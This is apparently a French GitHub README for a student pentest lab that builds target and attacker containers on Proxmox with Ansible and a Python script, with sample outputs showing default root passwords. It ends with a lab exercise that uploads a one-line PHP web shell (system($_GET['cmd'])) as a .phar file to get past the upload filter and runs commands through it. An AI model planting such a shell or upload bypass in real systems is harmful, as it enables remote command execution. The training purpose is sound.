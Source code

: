 # VIR2
### Installation de git

```python
sudp apt install git
```

### Clonage du repo

```python
git glone https://github.com/andre1400/VIR2.git
```
### Rendre executable les .yaml
```
find /vir2/VIR2 -name "AnsibleScriptLAB.yaml" -exec chmod +x {} \;
find /vir2/VIR2 -name "AnsibleScriptPirate.yaml" -exec chmod +x {} \;
```

### Installation du module python qu’on aura besoin pour notre script plus tard

```python
pip install absl-py
```

### Installation d’Ansbile

```bash
apt update
apt upgrade
apt install python3-pip
python3 -m pip install --user ansible
echo 'export PATH="$HOME/.local/bin:$PATH"' >> ~/.bashrc
source .bashrc
ansible-galaxy collection install community.mysql
```
## Create new template
```
root@pve-01:~# pct clone 100 {newId} --full --storage lxc-storage
```
### Attrapper la nouvelle ip
```
root@pve-01:~# pct exec {newId} -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.163/24
Start ansible machine & get his ip

root@pve-01:~# pct start 101
root@pve-01:~# pct exec 101 -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.163/24
root@pve-01:~# ssh root@ip
```
### Echange de clé pour la nouvelle machine
```
root@pve-01:~# ssh-keyscan 10.10.111.163 >> ~/.ssh/known_hosts
```
### Edition du .yaml et du .ini file
```
root@pve-01:~# ansible-playbook -i inventoryPirate.ini AnsibleScriptPirate.yaml --ask-pass
```
### Convertion en template
```
root@pve-01:~# pct template {newId}
```
### Edition du ScriptPython.py avec les id's
```
def main(ARGV):
    pentesterlab = 102
    attacking = 100
```
# Utilisation des contenaires
## Creation
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task create --number 5
```
/// OUTPUT
```
Creation des pentesterlabs
ID : 200 Created
ID : 201 Created
ID : 202 Created
ID : 203 Created
ID : 204 Created
Creation des machines attaquantes
ID : 300 Created
ID : 301 Created
ID : 302 Created
ID : 303 Created
ID : 304 Created
```
## Start
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task start --number 3
```
///OUTPUT
```
==Start des machines pentesterlabs==
ID : 200 IP : 10.10.111.150/24
Username: root Password: Pa$$w0rd
ID : 201 IP : 10.10.111.151/24
Username: root Password: Pa$$w0rd
ID : 202 IP : 10.10.111.152/24
Username: root Password: Pa$$w0rd

==Start des machines attaquantes Let's GO !!!...==
ID : 400 IP : 10.10.111.143/24
Username: root Password: Pa$$w0rd
ID : 401 IP : 10.10.111.153/24
Username: root Password: Pa$$w0rd
ID : 402 IP : 10.10.111.154/24
Username: root Password: Pa$$w0rd
root@pve-01:/vir2/VIR2#
```
## STOP
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task stop --number 3
```
/// OUTPUT
```
==Stop des machines pentesterlabs==
ID : 200 Stopped
ID : 201 Stopped
ID : 202 Stopped

==Stop des machines attaquantes==
ID : 400 Stopped
ID : 401 Stopped
ID : 402 Stopped
```
## SUPPRESSION (STOP + SUPPRESSION)
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task destroy --number 3
```
///OUTPUT
```
==Remove des machines pentesterlabs==
  Logical volume "vm-200-disk-0" successfully removed
ID : 200 Removed
  Logical volume "vm-201-disk-0" successfully removed
ID : 201 Removed
  Logical volume "vm-202-disk-0" successfully removed
ID : 202 Removed

==Remove des machine attaquantess==
  Logical volume "vm-400-disk-0" successfully removed
ID : 400 Removed
  Logical volume "vm-401-disk-0" successfully removed
ID : 401 Removed
  Logical volume "vm-402-disk-0" successfully removed
ID : 402 Removed
```
## Lister
*Ca va lister uniquement l'environnement lab de l'étudiant, pour tous lister : pct list*

/// INPUT
```
root@pve:~# python3 ./ScriptPython.py --task list --number 2
```
///OUTPUT
```
Listing all containers :
200 stopped penterlabT
201 stopped penterlabT
300 stopped attackerT
301 stopped attackerT
```
## Exécution d’un script `myshell.php` sur `pentester-03` [3 pts]**
    1. Tester depuis le navigateur de l’étudiant *`http://pentester-03/admin/uploads/myshell.phar?cmd=ls`*
        
        <?php  
           system($_GET['cmd']);
        ?>
```
lynx http://10.10.111.169/
go to > Admin
type : y
Login : admin
Password : P4ssw0rd
go on > add
Title : myshell.PHP
File : myshell.phar
click on > add
CRTL + C to quit lynx
```
```
lynx http://10.10.111.169/admin/uploads/myshell.phar?cmd=ls
```
